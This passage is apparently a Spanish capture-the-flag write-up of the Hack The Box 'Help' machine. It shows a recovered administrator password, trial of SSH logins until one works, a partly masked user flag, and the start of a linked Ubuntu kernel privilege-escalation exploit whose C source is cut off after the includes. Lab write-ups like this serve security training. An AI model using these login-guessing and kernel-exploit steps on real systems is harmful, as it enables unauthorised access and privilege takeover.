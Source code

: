 Obtenemos la contraseña de la cuenta Administrator: Welcome1

Estas credenciales no funcionarion en el panel de /support de helpdesz. Tampoco funcionaron de primeras con ssh las combinaciones Administrator, admin, helpme, root, hasta que probé con help como usuario y pude autenticarme vía ssh:

```
ssh help@10.10.10.121
```

![image](https://github.com/user-attachments/assets/0003d950-afd6-47d2-8abe-ae78e90b59cb)


```
help@help:/home$ cd help
help@help:~$ ls
help  npm-debug.log  user.txt
help@help:~$ cat user.txt
172100*********53c987d******938
help@help:~$ 
```

### Escalando privilegios

Verificamos que el usuario help no puede ejecutar ningún comando como root:

```
help@help:~$ sudo -l
[sudo] password for help: 
Sorry, user help may not run sudo on help.
```

Al enumerar la versión del kernel parece que es una versión vulnerable:
![image](https://github.com/user-attachments/assets/0c2d2d45-c320-463d-8054-46b215d482f6)

https://www.exploit-db.com/exploits/44298

![image](https://github.com/user-attachments/assets/1be3b3c3-4268-4de9-9439-152960b93834)


Creamos un fichero en el directorio /tmp de la máquina objetivo con el nombre exploit.c y el contenido del exploit
```c
/*
 * Ubuntu 16.04.4 kernel priv esc
 *
 * all credits to @bleidl
 * - vnik
 */

// Tested on:
// 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64
// if different kernel adjust CRED offset + check kernel stack size
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <errno.h>
#include <fcntl.h>
#include <string.h>
#include <linux/bpf.h>
#include <linux/unistd.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <sys/un.h>
#include <sys/stat.h>
#include <stdint.h>

```